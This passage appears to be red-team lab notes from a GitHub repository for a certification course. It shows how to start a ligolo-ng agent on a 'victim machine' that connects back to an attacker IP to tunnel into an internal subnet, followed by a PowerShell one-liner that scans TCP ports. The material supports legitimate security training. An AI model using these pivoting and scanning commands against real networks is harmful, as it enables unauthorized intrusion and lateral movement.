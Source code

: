 ![Diagram](https://raw.githubusercontent.com/Fernandez99fc/CRTA/refs/heads/main/Images/Screenshot_(238).png)


```jsx
Transfer the agent on the victim machine & start the connection
#Replace this with your attacker IP address.
./agent -connect 10.10.200.173:443 -ignore-cert
```
![Diagram](https://raw.githubusercontent.com/Fernandez99fc/CRTA/refs/heads/main/Images/Screenshot_(239).png)


```jsx
On the server side, we can check that the agent connected successfully.

On the ligolo-ng proxy, check the session & start the tunnel.
session - To check active sessions
start - To start tunnel

Now, fire up a new terminal & check that we can now access the internal IP
range 192.168.98.0/24
```

![Diagram](https://raw.githubusercontent.com/Fernandez99fc/CRTA/refs/heads/main/Images/Screenshot_(241).png)

<h3>Red Teaming</h3>

```bash
Command to scan for open TCP ports on powershell.
1..1024 | % {echo ((new-object Net.Sockets.Tcpclient).Connect("10.0.0.100",$_)) "Port $_ is open!"} 2>$null
```
